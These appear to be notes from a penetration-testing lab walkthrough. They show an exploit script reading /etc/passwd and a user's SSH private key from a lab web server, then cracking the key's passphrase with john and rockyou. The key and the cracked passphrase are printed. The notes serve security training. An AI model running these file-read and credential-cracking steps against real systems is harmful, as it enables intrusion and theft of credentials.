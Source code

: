 ```
```

Use the script (provide URL of target & target file path)
```hlt:1
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
daniela:x:1001:1001:,,,:/home/daniela:/bin/bash
marcus:x:1002:1002:,,,:/home/marcus:/bin/bash
```
- Two user accounts: daniela and marcus
- Add these names to `creds.txt`

Check for SSH private keys with name `id_rsa` in home directories of _daniela_ and _marcus_

```hlt:1
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/marcus/.ssh/id_rsa
Invalid installer file name!!
```
- None for marcus

```hlt:1
kali@kali:~/beyond/websrv1$ python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBAElTUsf
3CytILJX83Yd9rAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQDwl5IEgynx
KMLz7p6mzgvTquG5/NT749sMGn+sq7VxLuF5zPK9sh//lVSxf6pQYNhrX36FUeCpu/bOHr
tn+4AZJEkpHq8g21ViHu62IfOWXtZZ1g+9uKTgm5MTR4M8bp4QX+T1R7TzTJsJnMhAdhm1
...
UoRUBJIeKEdUlvbjNuXE26AwzrITwrQRlwZP5WY+UwHgM2rx1SFmCHmbcfbD8j9YrYgUAu
vJbdmDQSd7+WQ2RuTDhK2LWCO3YbtOd6p84fKpOfFQeBLmmSKTKSOddcSTpIRSu7RCMvqw
l+pUiIuSNB2JrMzRAirldv6FODOlbtO6P/iwAO4UbNCTkyRkeOAz1DiNLEHfAZrlPbRHpm
QduOTpMIvVMIJcfeYF1GJ4ggUG4=
-----END OPENSSH PRIVATE KEY-----
```
- Success with daniela!

Attempt to SSH to WEBSRV1 as _daniela_
```hlt:1,3
kali@kali:~/beyond/websrv1$ chmod 600 id_rsa

kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 
```

SSH private key protected by pass phrase. 

Attempt to crack it with #ssh2john , #john , and #rockyou wordlist

```hlt:1,3,tequieromucho
kali@kali:~/beyond/websrv1$ ssh2john id_rsa > ssh.hash

kali@kali:~/beyond/websrv1$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
...
tequieromucho    (id_rsa) 
...
```
